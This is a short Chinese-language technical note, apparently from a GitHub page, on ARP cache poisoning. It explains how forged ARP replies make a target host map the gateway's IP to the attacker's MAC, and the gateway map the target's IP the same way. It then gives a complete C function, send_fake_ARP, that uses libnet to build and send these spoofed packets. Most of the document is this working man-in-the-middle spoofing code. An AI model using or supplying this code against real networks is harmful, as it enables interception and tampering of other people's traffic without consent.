利用libnet构建ARP数据包：

* 对于目标主机，目标MAC和目标IP设置为目标主机的，源MAC设置为自己的，源IP设置为网关的。这样的ARP应答包一旦被目标主机接收，其ARP缓存中对应于网关的IP地址的MAC就变成我们的了，此后目标主机再发包，目的地就全部会变成我们。
* 对于网关，同样的，目标MAC和目标IP设置为网关的，源MAC设置为自己的，源IP设置为目标主机的。

```c
int send_fake_ARP(char *dev, u_char *srcMac, u_char *dstMac, u_char *srcIp, u_char *dstIp, int op) {

  /* definations */
  libnet_t *net_t = NULL;
  static u_char padPtr[18];
  char err_buf[LIBNET_ERRBUF_SIZE];
  libnet_ptag_t p_tag;
  int res;

  /* start libnet */
  net_t = libnet_init(LIBNET_LINK_ADV, dev, err_buf);
  if (net_t == NULL) {
    printf("libnet start error\n");
    return 1;
  }

  /* build ARP */
  p_tag = libnet_build_arp(ARPHRD_ETHER, EPT_IPv4, MAC_ADDR_LEN, IP_ADDR_LEN, op,
  srcMac, srcIp, dstMac, dstIp, padPtr, 18, net_t, 0);
  if (p_tag == -1) {
    printf("libnet build_arp error\n");
    libnet_destroy(net_t);
    return 1;
  }

  /* build ethernet */
  p_tag = libnet_build_ethernet(dstMac, srcMac, EPT_ARP, padPtr, 0, net_t, 0);
  if (p_tag == -1) {
    printf("libnet build_ethernet error\n");
    libnet_destroy(net_t);
    return 1;
  }

  /* send packet */
  res = libnet_write(net_t);
  if (res == -1) {
    printf("ARP libnet write error\n");
    libnet_destroy(net_t);
    return 1;
  }

  /* success */
  libnet_destroy(net_t);
  return 0;
}
```
